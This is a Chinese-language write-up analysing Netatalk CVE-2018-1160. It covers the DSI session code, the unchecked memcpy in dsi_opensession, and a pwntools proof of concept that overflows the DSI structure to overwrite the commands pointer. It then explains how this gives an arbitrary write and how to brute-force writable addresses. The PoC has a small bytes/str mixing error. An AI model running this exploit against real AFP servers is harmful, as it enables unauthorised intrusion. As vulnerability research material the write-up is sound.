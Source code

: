 [(37条消息) Netatalk CVE-2018-1160的发现与利用_c01dkit的博客-CSDN博客](https://blog.csdn.net/weixin_43483799/article/details/113856715)



程序流程：

main() -> dsi_start() -> dsi_getsession()、afp_over_dsi()

- main()函数首先进行一系列初始化工作，包括解析配置文件，初始化socket、初始化dsi结构体等
- dsi_start()函数。该函数首先调用dsi_getsession()函数获取TCP会话，解析请求消息，之后调用afp_over_dsi()函数进行会话内容的处理。
- afp_over_dsi()：当前scoket下读取消息，根据消息调用处理函数实现AFP通信。

 dsi_getsession() -> dsi->proto_open(dsi) -> 父进程（直接返回，监听）/ 子进程（DSI消息处理逻辑，根据dsi_command）-> dsi_opensession()

- dsi_getsession() 开启一个DSI会话，从TCP socket接收会话消息，保存至结构体DSI中。子进程处理逻辑，若dsi_command为DSIFUNC_OPEN，则调用dsi_opensession()函数，初始化DSI会话。
- dsi->proto_open(dsi)实际为dsi_tcp_open，fork子进程读取DSI header到结构体dsi->header，读取payload到dsi->commands指向的buf
- dsi_opensession(dsi)：首先根据commands[0]的内容决定处理逻辑，若为DSIOPT_ATTNQUANT，则执行memcpy，以commands[1]为大小，将commands[2]之后的内容拷贝至DSI结构体的attn_quantum成员变量（4 bytes）

两个重要的结构体。其中dsi_block为dsi消息头部，DSI结构体保存了会话的所有重要信息，其中commands指针指向了TCP会话发送来的命令消息。位于include/atalk/dsi.h

```c
#define DSI_BLOCKSIZ 16
struct dsi_block {
    uint8_t dsi_flags;       /* packet type: request or reply */
    uint8_t dsi_command;     /* command */
    uint16_t dsi_requestID;  /* request ID */
    union {
        uint32_t dsi_code;   /* error code */
        uint32_t dsi_doff;   /* data offset */
    } dsi_data;
    uint32_t dsi_len;        /* total data length */
    uint32_t dsi_reserved;   /* reserved field */
};

#define DSI_DATASIZ       65536

/* child and parent processes might interpret a couple of these
 * differently. */
typedef struct DSI {
    struct DSI *next;             /* multiple listening addresses */
    AFPObj   *AFPobj;
    int      statuslen;
    char     status[1400];
    char     *signature;
    struct dsi_block        header;
    struct sockaddr_storage server, client;
    struct itimerval        timer;
    int      tickle;            /* tickle count */
    int      in_write;          /* in the middle of writing multiple packets,
                                   signal handlers can't write to the socket */
    int      msg_request;       /* pending message to the client */
    int      down_request;      /* pending SIGUSR1 down in 5 mn */

    uint32_t attn_quantum, datasize, server_quantum;
    uint16_t serverID, clientID;
    uint8_t  *commands; /* DSI recieve buffer */
    uint8_t  data[DSI_DATASIZ];    /* DSI reply buffer */
    size_t   datalen, cmdlen;
    off_t    read_count, write_count;
    uint32_t flags;             /* DSI flags like DSI_SLEEPING, DSI_DISCONNECTED */
    int      socket;            /* AFP session socket */
    int      serversock;        /* listening socket */

    /* DSI readahead buffer used for buffered reads in dsi_peek */
    size_t   dsireadbuf;        /* size of the DSI readahead buffer used in dsi_peek() */
    char     *buffer;           /* buffer start */
    char     *start;            /* current buffer head */
    char     *eof;              /* end of currently used buffer */
    char     *end;

#ifdef USE_ZEROCONF
    char *bonjourname;      /* server name as UTF8 maxlen MAXINSTANCENAMELEN */
    int zeroconf_registered;
#endif

    /* protocol specific open/close, send/receive
     * send/receive fill in the header and use dsi->commands.
     * write/read just write/read data */
    pid_t  (*proto_open)(struct DSI *);
    void   (*proto_close)(struct DSI *);
} DSI;
```





漏洞点

在 **/netatalk-3.1.11/libatalk/dsi/dsi_opensess.c** 的 **dsi_opensession** 函数中的 **memcpy**：

```c
#define DSIOPT_ATTNQUANT 0x01   /* attention quantum */
void dsi_opensession(DSI *dsi)
{
  ...
  /* parse options */
  while (i < dsi->cmdlen) {
    switch (dsi->commands[i++]) {
    case DSIOPT_ATTNQUANT: 
      memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);
      dsi->attn_quantum = ntohl(dsi->attn_quantum);

    case DSIOPT_SERVQUANT: /* just ignore these */
    default:
      i += dsi->commands[i] + 1; /* forward past length tag + length */
      break;
    }
  }
  ...
}
```

`memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);`

 **dsi->commands[i]** 由外部传入，且没检查大小，导致可溢出到DSI结构体中attn_quantum的后续成员。成员 **commands** 的类型为uint8_t*，所以memcpy的最大长度是0xff。溢出部分data后就无法向后溢出了。commands为DSI接收buffer，可以覆盖为任意值。若再向该buffer

```c
#define DSI_DATASIZ       65536

typedef struct DSI {
	...
    uint32_t attn_quantum, datasize, server_quantum;
    uint16_t serverID, clientID;
    uint8_t  *commands; /* DSI recieve buffer */
    uint8_t  data[DSI_DATASIZ];    /* DSI reply buffer */
	...
} DSI;
```

DSI:  **dsi_opensession protocol** ，对照其协议格式，和漏洞PoC：

![image](CVE-2018-1160.assets/poc.png)

PoC中的header就是符合dsi协议的字段，协议中的Payload就是PoC中的commands：

```python
commands = "\x01"   # DSIOPT_ATTNQUANT 选项的值
commands += "\x80"  # 数据长度
commands += "\xaa" * 0x80
```

poc，覆盖server_quantum为hung，收到的回显也会显示hung

```python
from pwn import *

context(endian='big',log_level='debug')
io = remote("127.0.0.1",5566)

cmd  = b'\x01'+ p8(0xc)+ b'a'*0x8 + 'hung'
dsi  = b'\x00\x04\x00\x01'
dsi += p32(0)
dsi += p32(len(cmd))
dsi += p32(0)
dsi += cmd

io.send(dsi)
io.recv()
```

```shell
pwndbg> x/20gx 0x55c10a51e370
0x55c10a51e370:	0x00010000676e7568	0x00007f56685b2010
0x55c10a51e380:	0x0000000000000000	0x0000000000000000
0x55c10a51e390:	0x0000000000000000	0x0000000000000000
0x55c10a51e3a0:	0x0000000000000000	0x0000000000000000
```

- dsi结构体，其中成员位于0x55c10a51e370，位于堆段
- commands指向的内存为0x00007f56685b2010，mmap分配，因为初始化dsi时候server_quantum为0x100000



exploit：

afpd：main -> dsi_start -> afp_over_dsi -> dsi_stream_receive

libatalk: dsi_stream_receive -> dsi_stream_read(dsi, dsi->commands, dsi->cmdlen)

> dsi_stream_read(DSI *dsi, void *data, const size_t length)是将dsi中payload内容读到data指针中

更改commands指针后，在本次tcp中再发一个包就可以**任意地址写**了，数据内容在dsi中的payload，不包括header。





爆破地址

当修改后的commands指针是一个可写的地址时，dsi_opensession()函数可以将server_quantum的值放进来并返回给我们，否则，子进程会由于访问不可写的地址而崩溃，socket异常。故，可以通过观察服务器是否给我们返回来确定当前我们是否爆破出一个合法的地址。
